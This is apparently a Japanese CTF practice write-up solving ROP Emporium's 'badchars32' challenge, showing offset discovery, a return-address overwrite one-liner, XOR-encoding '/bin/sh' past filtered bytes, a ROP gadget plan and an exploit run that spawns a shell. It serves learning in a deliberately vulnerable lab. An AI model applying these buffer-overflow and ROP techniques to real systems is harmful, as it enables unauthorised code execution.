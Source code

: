 ```
~/ctf/practice-pwn/ROP-Emporium/badchars32:yyy@(*｡˃̵ω ˂̵｡) < ./badchars32
badchars by ROP Emporium
32bits

badchars are: b i c / <space> f n s
> hoge

Exiting
```

```
gdb-peda$ patto AFAA
AFAA found at offset: 44
```

usefulFunctionに遷移させてみる

```
~/ctf/practice-pwn/ROP-Emporium/badchars32:yyy@(๑˃̵ᴗ˂̵)ﻭ < python -c 'print "A" * 44 + "\xa9\x87\x04\x08"' |./badchars32
badchars by ROP Emporium
32bits

badchars are: b i c / <space> f n s
> badchars32  badchars32.dis  flag.txt  peda-session-badchars32.txt  writeup.md

zsh: done                              python -c 'print "A" * 44 + "\xa9\x87\x04\x08"' |
zsh: segmentation fault (core dumped)  ./badchars32
```

usefulFunctionは/bin/lsを実行しているだけ

shellを奪う必要がありそう

[nstrlen]

改行まで何文字か数えて返す

[checkBadchars]

`b i c / <space> f n s` が入力に存在した場合、それを `0xeb` に置換している


```
08048890 <usefulGadgets>:
 8048890:	30 0b                	xor    BYTE PTR [ebx],cl
```
usefulGadgetにxorがあるので、置換された入力値をxorで元に戻す or 最初から変換しておき後で戻す か？

最初からbadcharsに引っかからないように変換しておき、あとからxorで元に戻す方針でやる

/bin/shのうち、"/", "b", "i", "n", "s"は適当な数とxorしておき、badcharsに引っかからないようにしておく

bssセクションをbufferとして使う
```shell
$ readelf -S badchars32
..............
[25] .data             PROGBITS        0804a038 001038 000008 00  WA  0   0  4
[26] .bss              NOBITS          0804a040 001040 00002c 00  WA  0   0 32
..............
```

今回は前回のwrite432で使った `mov    DWORD PTR [edi],ebp` のようなGadgetがないので、他にないか探す

```
gdb-peda$ ropgadget
ret = 0x804844a
popret = 0x8048461
pop3ret = 0x80488f9
pop4ret = 0x80488f8
pop2ret = 0x8048896
addesp_12 = 0x804845e
addesp_16 = 0x80485a5
```

```shell
$ ROPGadget --binary badchars32 > ropgadget
```

`mov dword ptr [edi], esi ; ret` が使えそう

`pop3ret(pop esi ; pop edi ; pop ebp ; ret)` を使って、ediにbufferのアドレス、esiに文字列、ebpは適当なパディングを入れておく

bufferに `/bin/sh` を xor したものを入れ終わったらxorで元に戻す作業に入る

usefulFunction の `xor    BYTE PTR [ebx],cl` を使うために、pop ebx ; pop ecx ; ret みたいなGadgetがないか探す

これもropgadgetを探すと見つかる -> `0x8048896 # pop ebx ; pop ecx ; ret`

よって、あとはいい感じにROP Chainを組めば終わり

```
~/ctf/practice-pwn/ROP-Emporium/badchars32:yyy@(*｡˃̵ω ˂̵｡) < python exploit.py
[+] Starting local process './badchars32': pid 29251
badchars by ROP Emporium
32bits

badchars are: b i c / <space> f n s
>
[*] Switching to interactive mode
$ ls
$ ls
badchars32    core        flag.txt   peda-session-badchars32.txt  writeup.md
badchars32.dis    exploit.py  input.txt  ropgadget
$
$ cat flag.txt
ROPE{a_placeholder_32byte_flag!}
```

memo:

- 大体、pop esi ; pop edi ; pop ebp ; ret の順になっていることが多い？
